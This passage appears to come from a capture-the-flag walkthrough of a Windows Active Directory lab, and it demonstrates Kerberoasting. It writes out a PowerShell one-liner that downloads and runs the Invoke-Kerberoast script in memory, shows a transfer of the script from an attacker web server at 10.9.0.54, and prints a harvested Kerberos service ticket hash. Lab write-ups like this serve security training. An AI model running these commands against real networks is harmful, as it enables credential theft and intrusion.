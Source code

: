 Answer: `fela`

## #3.2

**Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.**

**Lets first get the Powershell Invoke-Kerberoast script.**

**`iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')`**

**Now lets load this into memory: `Invoke-Kerberoast -OutputFormat hashcat ​ |fl`**

**You should get a SPN ticket.**

!["X2lGkzF.png"](files/X2lGkzF.png)


As the Windows machine is not connected to the Internet, we will download the script on our own machine, will make the file available through a python web server, and download it via HTTP on the Windows box.

Now on the Windows machine, run the script:

~~~
C:\Windows\System32\spool\drivers\color>powershell
PS C:\Windows\System32\spool\drivers\color> Invoke-WebRequest -Uri 'http://10.9.0.54:8000/Invoke-Kerberoast.ps1' -OutFile 'Invoke-Kerberoast.ps1'
PS C:\Windows\System32\spool\drivers\color> . .\Invoke-Kerberoast.ps1
PS C:\Windows\System32\spool\drivers\color> Invoke-Kerberoast -OutputFormat hashcat |fl


TicketByteHexStream  :
Hash                 : $krb5tgs$23$*fela$corp.local$HTTP/fela*$91413060734DB19DDC6F68ED3D6E5AB6$C86E1E76EE9D275C68BA1F9
                       8C387DFEFD259E5459996FDC7A1251925397330E994404ED4764B04BCBD351FEDB1FB3178177CFA816340633FF00C81A
                       27E2189E015F9CF4D60C1F3FD9CCE59898BEAFCB09C847128260E1A9C826DF3A08D5C19A3E3AB96D525E01A8EE1A56E2
                       B14EE3957BEA78B0259056482F8E84BC1E2A9322B9C72CA01150345E8984C690BE2993080FFF7BF70A2AAE36BE0CC030
                       3D92B54CF1CD383D0957536F21937A6CCE4D737FD39CB249FF8F907826CDCDB35A5D6A78965BDCF5636779FF79EEA857
                       38C5ED3685ABF574F6192690FC5422C32F42653252A42E161C91A6CAFA0C4CB13BB48C297D80CC291F29171DCBAACCF0
~~~